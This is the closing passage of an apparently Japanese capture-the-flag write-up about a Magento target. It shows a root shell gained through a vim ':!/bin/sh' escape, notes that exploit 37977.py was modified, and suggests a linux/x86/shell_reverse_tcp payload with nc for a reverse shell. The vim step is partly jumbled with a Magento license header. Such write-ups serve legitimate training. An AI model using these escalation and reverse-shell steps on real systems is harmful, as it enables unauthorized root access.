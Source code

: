 vim 内で shell を起動すると

```
:!/bin/sh
/**
 * Magento
 *
 * NOTICE OF LICENSE
 *
 * This source file is subject to the Open Software License (OSL 3.0)
 * that is bundled with this package in the file LICENSE.txt.
 * It is also available through the world-wide-web at this URL:
 * http://opensource.org/licenses/osl-3.0.php
 * If you did not receive a copy of the license and are unable to
 * obtain it through the world-wide-web, please send an email
 * to license@magentocommerce.com so we can send you a copy immediately.
 *
 * DISCLAIMER
 *
 * Do not edit or add to this file if you wish to upgrade Magento to newer
 * versions in the future. If you wish to customize Magento for your
 * needs please refer to http://www.magentocommerce.com for more information.
 *
 * @category   Mage
 * @package    Mage
@
:!/bin/sh
```

root が取れます

```
# whoami
whoami
root

```

## 終わりに
PE は典型的なものでした。37977.py の改変が大変だった…

## shellのとり方別解
別解というほどでもないですが、`linux/x86/shell_reverse_tcp`を payload に使うと nc でも安定した shell が取れます

